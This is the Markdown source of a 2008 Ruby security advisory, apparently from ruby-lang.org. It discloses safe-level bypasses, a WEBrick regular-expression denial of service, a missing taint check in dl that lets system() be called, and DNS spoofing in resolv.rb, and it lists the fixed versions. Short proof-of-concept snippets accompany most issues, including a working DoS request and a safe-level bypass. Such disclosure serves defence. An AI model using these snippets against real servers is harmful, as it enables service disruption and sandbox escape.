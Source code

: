 ```yaml
---
layout: news_post
title: "Multiple vulnerabilities in Ruby"
author: "Shugo Maeda"
lang: en
---
```


Multiple vulnerabilities have been discovered in Ruby. It\'s recommended
that you upgrade to the latest versions.

## Details

The following vulnerabilities have been discovered.

### Several vulnerabilities in safe level

Several vulnerabilities in safe level have been discovered.

* untrace\_var is permitted at safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME may be modified at safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Insecure methods may be called at safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

These vulnerabilities were reported by Keita Yamaguchi.

### DoS vulnerability in WEBrick

WEBrick::HTTP::DefaultFileHandler is faulty of exponential time taking
requests due to a backtracking regular expression in
WEBrick::HTTPUtils.split\_header\_value.

Exploitable server:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

The request likely won\'t finish in this universe.

This vulnerability was reported by Christian Neukirchen.

### Lack of taintness check in dl
{: #label-3}

dl doesn\'t check taintness, so it could allow attackers to call
dangerous functions.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

This vulnerability was reported by sheepman.

### DNS spoofing vulnerability in resolv.rb

resolv.rb allow remote attackers to spoof DNS answers. This risk can be
reduced by randomness of DNS transaction IDs and source ports, so
resolv.rb is fixed to randomize them.

* see also: [CVE-2008-1447][1]

This vulnerability was reported by Tanaka Akira.

## Vulnerable versions

1.8 series
: * 1\.8.5 and all prior versions
  * 1\.8.6-p286 and all prior versions
  * 1\.8.7-p71 and all prior versions

1.9 series
: * r18423 and all prior revisions

## Solution

1.8 series
: Please upgrade to 1.8.6-p287, or 1.8.7-p72.

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Please check out the latest version using Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Please note that a package that corrects this weakness may already be
available through your package management software.

## Credit

Credit to Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka
Akira for disclosing these problems to Ruby Security Team.

## Changes

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.
* 2008-08-11 11:23 +09:00 fixed the patchlevel of ruby 1.8. see [the
  release announcement of Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/en/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/
